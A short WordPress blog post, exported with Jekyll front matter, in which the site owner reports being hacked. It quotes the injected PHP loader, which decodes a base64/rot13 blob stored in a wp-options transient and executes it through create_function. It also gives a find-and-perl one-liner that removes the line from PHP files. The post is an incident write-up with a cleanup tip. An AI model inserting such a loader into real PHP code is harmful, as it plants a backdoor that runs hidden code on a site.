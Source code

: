 ```yaml
---
layout: post
status: publish
published: true
title: We're back
author: dan
author_login: admin
author_email: dan@danwalmsley.com
author_url: http://danwalmsley.com
wordpress_id: 467
wordpress_url: http://www.danwalmsley.com/?p=467
date: 2011-07-11 14:19:46.000000000 -07:00
categories:
- General
- featured
tags: []
comments: []
---
```

So I totally got hacked. Reminder: be vigilant about upgrading wordpress and its plugins, or bad things happen.

The hack looks like this, and appears all over the place, at the top of some files and the bottom of others. It decodes a huge blob of encoded text that was stuffed into one of the wp-options values.
<blockquote>get_option(\"_transient_feed_98e8dbd04edf43b096e815a29343b006\"); $z=base64_decode(str_rot13($z)); if(strpos($z,\"0FE00707\")!==false){ $_z=create_function(\"\",$z); @$_z(); }</blockquote>
My first thought: "Oh crap, removing that text from hundreds of files? No thanks.". Command line to the rescue! Thanks to Perl for still being awesome after all these years.
<blockquote>find . -name "*.php" -exec perl -e 's/^.*_transient_feed_98e8dbd04edf43b096e815a29343b006.*$//g' -p -i {} \;</blockquote>
If you've been struck by the same thing, just replace the _transient_feed with your own (the numbers probably change). These script-kiddy hackers are a perpetual annoyance. Hey kids - go build something awesome and useful instead of messing our web sites.
